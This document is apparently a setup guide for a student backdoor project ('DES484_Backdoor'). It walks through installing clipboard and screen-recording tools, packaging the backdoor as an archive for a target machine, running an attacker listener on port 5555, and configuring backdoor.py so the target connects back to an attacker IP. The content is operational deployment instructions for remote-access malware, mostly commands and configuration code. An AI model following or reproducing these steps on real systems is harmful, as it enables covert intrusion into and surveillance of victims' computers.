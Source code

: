 ```bash
# Arch Linux:
sudo pacman -S xclip

# For best screen recording performance, install ffmpeg:
# macOS:
brew install ffmpeg
# Ubuntu/Debian:
sudo apt-get install ffmpeg
# Fedora/CentOS:
sudo dnf install ffmpeg
# Windows: Download from ffmpeg.org and add to PATH
```

#### 1.3 Prepare Target Package

**Full Package (with all features):**

```bash
# Create deployment package
cd ~/Desktop
tar -czf backdoor_full.tar.gz DES484_Backdoor/

# Or create zip
zip -r backdoor_full.zip DES484_Backdoor/
```

### Phase 2: Configuration

#### 2.1 Configure Attacker (server.py)

The server.py is already configured to listen on all interfaces (0.0.0.0).
No changes needed unless you want a different port:

```python
# In server.py (already configured):
HOST = '0.0.0.0'  # Listen on all interfaces
PORT = 5555       # Default port
```

#### 2.2 Configure Target (backdoor.py)

**Edit backdoor.py and update these lines:**

```python
# At the bottom of backdoor.py (around line 490)
if __name__ == "__main__":
    # Configuration - Change these to match your attacker machine
    ATTACKER_HOST = '192.168.1.12'  # ← Change to YOUR attacker IP
    ATTACKER_PORT = 5555            # ← Change if needed

    # Create and start backdoor client
    client = BackdoorClient(ATTACKER_HOST, ATTACKER_PORT)
    client.connection()
```
